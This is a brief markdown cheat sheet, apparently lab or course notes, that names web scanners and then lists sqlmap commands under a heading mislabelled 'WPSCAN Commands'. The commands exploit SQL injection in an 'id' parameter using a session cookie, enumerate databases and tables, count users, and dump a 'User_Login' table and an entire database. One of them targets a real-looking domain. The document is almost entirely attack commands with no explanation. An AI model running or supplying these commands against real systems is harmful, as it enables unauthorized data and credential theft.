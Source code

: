 ## Tools
wapiti,wpscan,nikto,openvas,owaspzap etc









## WPSCAN Commands

### Get Database
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" --dbs
### Get Tables 
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --tables
### Get number of Users available
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope -T UserProfile --count
### Dump Tabledata
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" -D moviescope -T User_Login --dump
### Dump Database 
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --dump-all


